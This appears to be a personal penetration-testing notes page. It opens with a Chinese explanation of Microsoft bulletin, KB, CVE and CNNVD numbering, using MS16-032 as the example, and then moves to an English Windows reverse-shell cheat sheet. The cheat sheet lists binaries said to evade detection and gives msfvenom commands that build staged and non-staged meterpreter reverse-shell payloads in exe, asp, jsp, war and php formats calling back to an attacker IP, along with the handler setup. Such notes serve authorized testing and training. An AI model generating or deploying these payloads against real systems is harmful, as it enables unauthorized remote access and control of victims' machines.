 > 如何理解微软的漏洞编号和补丁编号，微软每发布一个安全公告，就会为这个安全公告给出一个唯一的编号，格式通常为MS*-*\,比如这里的MS16-032，MS代表Microsoft，16代表2016年，032表示2016年发布的32个安全公告。

> 在安全公告可以获得的信息：受此漏洞影响的系统和漏洞的严重等级（漏洞导致的结果），不同操作系统对应的补丁，知识库的链接，漏洞的详细信息。

> KB(Knowledge Base，知识库)是微软补丁的命名方式，指的是对应微软知识库的那一篇文章，例如这里的[KB3143141](https://support.microsoft.com/en-us/help/3143141)，可以看到相关详细信息。

> 在知识库文章可以获得的信息：补丁所解决的问题，安装补丁的一些条件，其他信息等等。

> 在安全公告中，会有CVE(Common Vulnerabilities and Exposures，公共漏洞展示）编号，这里是的编号为CVE-2016-0099，CVE编号是由CVE Numbering Authorities (CNAs) ，每个CVE 有CNA机构颁发，这个机构是由美国国土安全部（DHS）网络安全和基础设施安全局（CISA）赞助，另外国内有cnnvd，这个是由中国信息安全测评中心做的，同样有类似的Cnnnvd编号，这里的编号为CNNVD-201603-080，描述的都是同一个漏洞

# windows Reverse shell

+ [hacktricks - windows shell](https://book.hacktricks.xyz/shells/shells/windows)
+ no detected: msbuild, msiexec, wmic
+ written on disk - no: powershell via smbshare, powershell one liner, mshta(IE local cache), 

## binary

### meterpreter
```bash
#-standard meterpreter, staged
//x86
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=445 -f exe -o shell_reverse.exe

//x64
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=445 -f exe -o shell_reverse-x64.exe

#-msf
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

#-meterpreter https
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.2 LPORT=443 -f exe -o met_https_reverse.exe

#-Non-staged
//x86
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

//x64
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#-web payload, non-staged
//asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

//jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp

//war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war

//php
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

